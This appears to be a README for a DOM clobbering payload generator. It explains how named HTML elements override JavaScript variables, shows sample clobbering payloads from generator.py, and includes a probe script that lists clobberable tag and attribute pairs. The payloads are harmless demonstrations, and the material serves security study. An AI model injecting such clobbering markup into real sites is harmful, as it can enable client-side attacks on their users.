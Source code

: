 # DOM Clobbering Generator

Full article on [OffensiveWeb](https://www.offensiveweb.com/docs/topics/dom-clobbering/).

## Getting started

**DOM Clobbering** is a vulnerability that originates from a naming collision between JavaScript variables and named HTML markups, where browsers replace pre-existing content of an undefined variable with an HTML element when the variable name and the element’s `name` (or `id`) attribute match.

## Attributes

### Attribute id

Example with a random tag with a `id` attribute:

```html
<h1 id="hd">Super title !</h1>

<script>
console.log(hd);            // <h1 id="hd">Super title !</h1>
console.log(window.hd);     // <h1 id="hd">Super title !</h1>
console.log(document.hd);   // undefined
console.log(hd.toString()); // [object HTMLHeadingElement]
console.log(hd.innerText);  // Super title !
</script>
```

### Attribute name

Example with a `form` tag with a `name` attribute:

```html
<form name="fm" method="GET" action="/login"></form>

<script>
console.log(fm);          // <form name="fm"></form>
console.log(window.fm);   // <form name="fm"></form>
console.log(document.fm); // <form name="fm"></form>
console.log(fm.method);   // get
console.log(fm.action);   // http://localhost/login
</script>
```

List of tags which supports the name attribute:
- `embed`, `form`, `iframe`, `image`, `img`, `object`

## Usage

## Depth 2

```bash
$ python3 generator.py video.lang 'Hello!'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'video.lang'
variable_value = 'Hello!'
depth = 2
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<a id="video" lang="Hello!"></a>
******************** PAYLOAD #2 ********************
<form id="video" lang="Hello!"></form>
******************** PAYLOAD #3 ********************
<form name="video" lang="Hello!"></form>
******************** PAYLOAD #4 ********************
<input id="video" lang="Hello!"></input>
******************** PAYLOAD #5 ********************
<iframe id="video" lang="Hello!"></iframe>
******************** PAYLOAD #6 ********************
<iframe name="video" lang="Hello!"></iframe>
******************** PAYLOAD #7 ********************
<a id="video"></a><a id="video" name="lang" href="a:Hello!"></a>
```

## Depth 4

```bash
$ python3 generator.py music.metadata.sound.max '100%'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'music.metadata.sound.max'
variable_value = '100%'
depth = 4
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<form id="music" name="metadata">
    <input id="sound" max="100%">
</form>
<form id="music">
```

## attributes.json 

```js
const tags = ["a", "abbr", "acronym", "address", "applet", "area", "article", "aside", "audio", "b", "base", "bdi", "bdo", "bgsound", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "data", "datalist", "dd", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "em", "embed", "fieldset", "figcaption", "figure", "font", "footer", "form", "frame", "frameset", "h1", "head", "header", "hgroup", "hr", "html", "i", "iframe", "image", "img", "input", "ins", "kbd", "keygen", "label", "legend", "li", "link", "main", "map", "mark", "marquee", "menu", "menuitem", "meta", "meter", "nav", "nobr", "noembed", "noframes", "noscript", "object", "ol", "optgroup", "option", "output", "p", "param", "picture", "plaintext", "portal", "pre", "progress", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp", "script", "section", "select", "slot", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "title", "tr", "track", "tt", "u", "ul", "var", "video", "wbr", "xmp"];
const attributes = ["accept", "accept-charset", "accesskey", "action", "align", "allow", "alt", "async", "autocapitalize", "autocomplete", "autofocus", "autoplay", "background", "bgcolor", "border", "buffered", "capture", "challenge", "charset", "checked", "cite", "class", "code", "codebase", "color", "cols", "colspan", "content", "contenteditable", "contextmenu", "controls", "coords", "crossorigin", "csp", "data", "data-*", "datetime", "decoding", "default", "defer", "dir", "dirname", "disabled", "download", "draggable", "enctype", "enterkeyhint", "for", "form", "formaction", "formenctype", "formmethod", "formnovalidate", "formtarget", "headers", "height", "hidden", "high", "href", "hreflang", "http-equiv", "id", "integrity", "intrinsicsize", "inputmode", "ismap", "itemprop", "keytype", "kind", "label", "lang", "language", "loading", "list", "loop", "low", "manifest", "max", "maxlength", "minlength", "media", "method", "min", "multiple", "muted", "name", "novalidate", "open", "optimum", "pattern", "ping", "placeholder", "playsinline", "poster", "preload", "readonly", "referrerpolicy", "rel", "required", "reversed", "role", "rows", "rowspan", "sandbox", "scope", "scoped", "selected", "shape", "size", "sizes", "slot", "span", "spellcheck", "src", "srcdoc", "srclang", "srcset", "start", "step", "style", "summary", "tabindex", "target", "title", "translate", "type", "usemap", "value", "width", "wrap"];

let valids = {};
tags.forEach(tag => {
    attributes.forEach(attribute => {
        if (attribute != "id" && attribute != "name") {
            document.body.innerHTML = `<${tag} id="xyz" ${attribute}="xanhacks"></${tag}>`;
            try {
                if (eval(`xyz.${attribute} == "xanhacks"`)) {
                    if (!valids.hasOwnProperty(tag)) {
                        valids[tag] = [];
                    }
                    valids[tag].push(attribute);
                }
            } catch (e) {}
        }
    });
});
console.log(valids);
```

## References

- [PortSwigger - DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- JavaScript for hackers - Gareth Heyes (book)
- [OWASP CS - DOM Clobbering](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)
- [DOM Clobbering - Frederik Braun](https://www.htmhell.dev/adventcalendar/2022/12/)
- [WHATWG - Named access on the Window object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)
- [It’s (DOM) Clobbering Time: Attack Techniques, Prevalence, and Defenses](https://scnps.co/papers/sp23_domclob.pdf)
